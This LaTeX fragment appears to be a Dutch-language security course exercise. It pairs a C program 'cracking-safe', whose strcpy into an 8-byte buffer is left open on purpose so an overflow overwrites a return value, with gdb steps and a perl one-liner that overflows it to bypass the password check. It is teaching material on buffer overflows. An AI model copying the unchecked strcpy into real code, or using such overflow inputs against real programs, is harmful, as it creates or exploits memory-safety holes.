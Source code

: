 \begin{enumerate}
\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}